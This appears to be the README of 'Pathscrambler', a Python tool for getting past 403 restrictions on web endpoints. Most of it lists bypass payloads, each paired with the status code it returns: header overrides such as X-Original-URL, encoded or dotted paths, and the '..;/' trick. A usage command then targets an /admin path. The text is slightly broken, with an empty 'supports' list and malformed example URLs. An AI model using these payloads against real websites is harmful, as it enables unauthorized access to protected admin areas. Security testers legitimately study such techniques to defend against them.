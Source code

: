 # Pathscrambler

Simple Tool written in python to bypass endpoint restriction currenty supports :

These payloads are directly pulled from twitter. Thanks to the community :)

--------------------------------------------------
```
GET /admin HTTP/1.1
Host: example.com     =>    403 Forbidden


GET /anything HTTP/1.1
Host: example.com
X-original-url: /admin =>   200 OK

GET /anything HTTP/1.1


https://www.example.com/path =>  403 Forbidden

https://www.example.com/%2e/path   =>  200 OK


https://www.example.com/admin       => 403

https://www.example.com/.           => 200

https://www.example/admin//         => 200

https://www.example/./admin/./      => 200


https://www.example.com/admin/      => 302

https://www.example.com/admin..;/   => 200
```


Command Example :

python3 pathscramblerpy -u "https://www.example/admin" where /admin returns 403
